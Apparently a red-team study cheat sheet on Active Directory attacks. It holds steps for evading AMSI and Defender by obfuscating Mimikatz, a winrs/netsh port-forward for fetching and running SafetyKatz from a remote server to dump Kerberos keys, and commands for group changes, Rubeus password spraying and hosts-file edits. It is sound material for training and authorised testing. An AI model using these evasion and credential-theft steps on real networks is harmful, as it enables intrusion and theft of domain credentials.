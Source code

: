 
**Steps to avoid signature based detection**
1. Scan using AMSITrigger
2. Modify the detected code snippet
3. Rescan using AMSITrigger
4. Repeat the steps 2 & 3 till we get a result as "AMSI_RESULT_NOT_DETECTED" or "Blank"

**For Mimikatz, make the following changes**
1. Remove default comments
2. Rename the script, function names and variables
3. Modify the variable names of the Win32 API calls that are detected
4. Obfuscate PEBytes content → PowerKatz dll using packers (tool: [ProtectMyTooling](https://github.com/mgeeky/ProtectMyTooling))
5. Implement a reverse function for PEBytes to avoid any static signatures
6. Add a sandbox check to waste dynamic analysis resources
7. Remove Reflective PE warnings for a clean output
8. Use obfuscated commands for Invoke-MimiEx execution
9. Analysis using DefenderCheck

**Avoid Detections**
- Running an exe from a remote server will trigger windows defender. One way to avoid this is port forwarding in 8080 `$null | winrs -r:<remote-server> "netsh interface portproxy add v4tov4 listenport=8080 listen address=0.0.0.0 connectport=80 connectaddress=<IP>"`.
  - Now you can run an exe like this `$ null | winrs -r:<remote-server> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa:ekeys exit`
  - To check if the port forwarding is still active `netsh interface portproxy show v4tov4`

**Good OPSEC**
- It’s better to use a Windows OS to increase stealth and flexibility.
- Always make sure to use a LDAP based tools, never .NET commands (SAMR)
- Always enumerate first, do not grab the low hanging fruit first, since it may be a decoy. Also check logon count and login policy.
  - An example: run `Get-DomainUser | select samaccountname, logonCount`, if you see an account that seems like a low hanging fruit but has zero logons, it might be a decoy or a dorment user.
  - Check: logonCount, lastlogontimestamp, badpasswordtime, Description
  - Take also in consideration your target organization: is this their first assesment? Do they invest in their security (time, effort)?
- Making changes to the local administrator group is one of the noisiest things you can do
- Domain Admin privilege is something that you should never go for
- In a real Red Team operation, you will not use a Golden Ticket unless you want to check for detections of it. This because it’s noisy
- LSAdump is really noisy, be careful
- Silver Ticket is better than Golden Ticket as we are not talking with the DC and for this reason there is no detection. The persistence is limited tho.

**Misc notes**
- Check for `Domain Admins` and `Service Accounts` groups
- Add an account to a group
  - `net group "<group>" <user> /add /domain`
  - Verify the success of the command with `Get-NetGroup "<group>" | select member`
  - Delete the `<user>` with `/del` instead of `/add`
- Use `gpp-decrypt` to decrypt a given GPP encrypted string
- Note `ActiveDirectoryRights` and `SecurityIdentifier` for each object enumerated during [Object Permissions Enumeration](#bbject-permissions-enumeration)
  - See: [ActiveDirectoryRights Enum (System.DirectoryServices)](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- If you get lost, check also the notes for the Hutch, Heist, and Vault machines
- File config for responder: `/usr/share/responder/Responder.conf`
- Do password spray only on local account
  - `Rubeus.exe brute /password:Password1 /noticket`
    - Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file
    - `echo 10.10.187.139 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`
- Kerberos Abuse: https://blog.spookysec.net/kerberos-abuse/
- To transfer files use smbserver: `sudo impacket-smbserver -smb2support share /home/kali/Downloads/`